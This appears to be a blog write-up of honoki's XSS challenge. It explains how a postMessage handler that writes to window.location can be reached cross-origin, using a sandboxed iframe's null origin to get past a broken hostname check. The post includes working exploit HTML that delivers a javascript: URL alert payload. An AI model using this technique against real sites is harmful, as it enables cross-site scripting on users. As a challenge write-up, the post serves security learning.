 ```yaml
---
layout: single
title: XSS Challenge By Honoki
date: 2022-05-04
classes: wide
tags:
  - XSS
  - Challenge
  - honoki
---
```


How could two security features collide into a vulnerability? Read more to find out!

## Overview

The gist of the challenge is:

> I came across an interesting XSS today. Can you spot the bug and exploit it?

To start off, here is the complete codebase of the challenge.

```
<script>
var originAllowed = function(o) {
  try {
    return new URL(o,window.location.origin).hostname === new URL(window.location).hostname;
  } catch (e) {
    return false;
  }
}

window.addEventListener("message", function(e) {
  if (originAllowed(e.origin) && e.data) {
    try {
      t = JSON.parse(e.data)
    } catch (e) {}
    if (t && "object" == typeof t && t.goto) { window.location = t.goto; }
  }
});
</script>
```

The first issue here is the insecure assignment on `window.location`, which definitely leads to XSS. Here is a small PoC:

![self-xss](/assets/images/other/honoki/self-xss.png)

Unfortunately, this is only half of the challenge. As honoki explained, here's what needs to be done:

> I’m getting a lot of solutions using postMessage to generate the alert from the devtools; that’s good but only half the challenge. 😇 Try and make sure that your payload works when sent from another website/domain to solve it completely. 👏

This could only be done if the origin check at `originAllowed` is somehow insecure or broken.

The function returns true only if the event origin's hostname is equal to the location origin's hostname.

However, the first part is very suspicious.

```
new URL(o,window.location.origin)
```

Using the location origin as an URL base is a bad idea.

![twitter comment](/assets/images/other/honoki/twitter-comment.png)

If I were to somehow hide my origin, then the following would happen:

![null-origin](/assets/images/other/honoki/null-origin.png)

If an `iframe` makes a `postMessage` call and has a `sandbox` attribute that doesn’t contain the value `allow-same-origin`, [browsers give it a “unique” origin](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element:concept-origin-2):

> When the `sandbox` attribute is set, the content is treated as being from a unique origin, forms, scripts, and various potentially annoying APIs are disabled, links are prevented from targeting other browsing contexts, and plugins are secured. The allow-same-origin keyword causes the content to be treated as being from its real origin instead of forcing it into a unique origin.

When determining the value of the Origin header to send in a cross-origin request, browsers serialize any unique origin as `null` and give the Origin header that value.

## Solution

I first write the `postMessage` caller like this:

```
<html>
    <body>
        <script>
            var url = "https://demo.honoki.net/xss-challenge.html"
            var pup = window.open(url)
            setTimeout(() => {
                pup.postMessage('{"goto": "javascript:alert(document.domain)"}', url)
            },1500)
        </script>
    </body>
</html>
```

Next, I frame the code and give it the required sandbox attributes.

```
<html>
    <iframe
        src="./exploit.html"
        sandbox="allow-scripts allow-popups allow-popups-to-escape-sandbox"
    ></iframe>
</html>
```

The `allow-scripts`, `allow-popups` and `allow-popups-to-escape-sandbox` are required to make the `postMessage` call.

Here is the result when I run it on a local server.

![alert](/assets/images/other/honoki/alert.png)

Thanks for reading!